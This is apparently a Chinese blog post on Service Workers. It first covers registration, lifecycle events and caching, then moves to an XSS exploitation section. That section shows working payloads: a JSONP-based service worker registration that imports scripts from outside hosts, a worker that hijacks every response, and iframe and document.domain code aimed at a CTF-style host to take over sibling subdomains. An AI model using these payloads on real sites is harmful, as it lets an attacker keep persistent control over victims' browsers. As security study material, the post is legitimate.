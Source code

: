 date: 2020-10-15
categories:
- web
tags:
- js
- xss
- web
title:  Service Worker
---
# Service Worker

## Service Worker 学习



### 配置检查

在已经支持 serivce workers 的浏览器的版本中，很多特性没有默认开启。如果你发现示例代码在当前版本的浏览器中怎么样都无法正常运行，你可能需要开启一下浏览器的相关配置：

- **Firefox Nightly**: 访问 `about:config` 并设置 `dom.serviceWorkers.enabled` 的值为 true; 重启浏览器；
- **Chrome Canary**: 访问 `chrome://flags` 并开启 `experimental-web-platform-features`; 重启浏览器 (注意：有些特性在Chrome中没有默认开放支持)；
- **Opera**: 访问 `opera://flags` 并开启` ServiceWorker 的支持`; 重启浏览器。 

另外，你需要通过 HTTPS 来访问你的页面 — 出于安全原因，**Service Workers 要求必须在 HTTPS 下才能运行。Github 是个用来测试的好地方，因为它就支持HTTPS。为了便于本地开发，`localhost` 也被浏览器认为是安全源。**

### 注意点

1. Service Workers 要求必须在 HTTPS 或者 localhost 下才能运行
2. Service Workers 要求尽可能的异步操作



### Service Workers 的注册及安装

通过`serviceWorkerContainer.register()`来注册一个Service Workers

eg.

```javascript
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw-test/sw.js', { scope: '/sw-test/' }).then(function(reg) {
    // registration worked
    console.log('Registration succeeded. Scope is ' + reg.scope);
  }).catch(function(error) {
    // registration failed
    console.log('Registration failed with ' + error);
  });
}
```

其中scope为Service Workers的作用域，默认是scriptURL(`/sw-test/sw.js`)所在的文件夹及其子文件夹，scope的选择范围只能是scriptURL所在的文件夹或者子文件夹，且不能影响其他网站，只能影响当前的域名。

scriptURL是相对于origin的URL而不是相对于引用他的那个JS文件，当然也有例外（ `Content-Type` 必须是 `text/javascript`）

> 如果你的 service worker 被激活在一个有 `Service-Worker-Allowed` header 的客户端，你可以为service worker 指定一个最大的 scope 的列表。

安装过程：

![image1496](https://mdn.mozillademos.org/files/12636/sw-lifecycle.png)





### 处理事件

Service Workers支持的事件如下



![image1603](https://mdn.mozillademos.org/files/12632/sw-events.png)

install:安装时会触发InstallEvent

activate:安装事件之后调用activate事件

fetch:Service Workers 中的所有请求都会触发fetch事件

sync:当发起一个同步请求是会触发sync事件







```javascript
this.addEventListener('install', function(event) {
  event.waitUntil(
    caches.open('v1').then(function(cache) {
      return cache.addAll([
        '/sw-test/',
        '/sw-test/index.html',
        '/sw-test/style.css',
        '/sw-test/app.js',
        '/sw-test/image-list.js',
        '/sw-test/star-wars-logo.jpg',
        '/sw-test/gallery/',
        '/sw-test/gallery/bountyHunters.jpg',
        '/sw-test/gallery/myLittleVader.jpg',
        '/sw-test/gallery/snowTroopers.jpg'
      ]);
    })
  );
});

self.addEventListener('activate', function(event) {
  var cacheWhitelist = ['v2'];

  event.waitUntil(
    caches.keys().then(function(keyList) {
      return Promise.all(keyList.map(function(key) {
        if (cacheWhitelist.indexOf(key) === -1) {
          return caches.delete(key);
        }
      }));
    })
  );
});

self.addEventListener('fetch', function(event) {
  event.respondWith(
    caches.match(event.request).then(function(resp) {
      return resp || fetch(event.request).then(function(response) {
        return caches.open('v1').then(function(cache) {
          cache.put(event.request, response.clone());
          return response;
        });  
      });
    })
  );
});
```





## Service Worker With XSS



### XSS简单示范



通过Service Worker 可以持久的控制受害者

利用条件如下：

1. 一个xss点
2. MIME TYPE 为 application/javascript的可控页面（通常是jsonp）



`index.php?xss=navigator.serviceWorker.register("/sw/jsonp.php?xss=importScripts(%27https://serviceworker.free.beeceptor.com/exp.js%27);");`



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});
```

### 利用Service Workers 控制主站及其子站点

假设在A.evil.com上存在XSS点，B.evil.com上存在可控jsonp，

那么我们可以通过设置`document.domain="evil.com"`，嵌入一个iframe（src=B.evil.com），然后执行恶意代码插入Service Workers

A站点执行(使用self.skipWaiting()使的Service Workes 控制当前界面)

```javascript
document.domain="evil.com";
a=document.createElement("iframe");
a.src="https://B.evil.com/";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/jsonp.php?callback=self.importScripts('//mysite.com/fuck.js')//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

这样我们便控制住了B站点



fuck.js

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});


```









## 参考

教程：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API/Using_Service_Workers

API：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API

https://lightless.me/archives/XSS-With-Service-Worker.html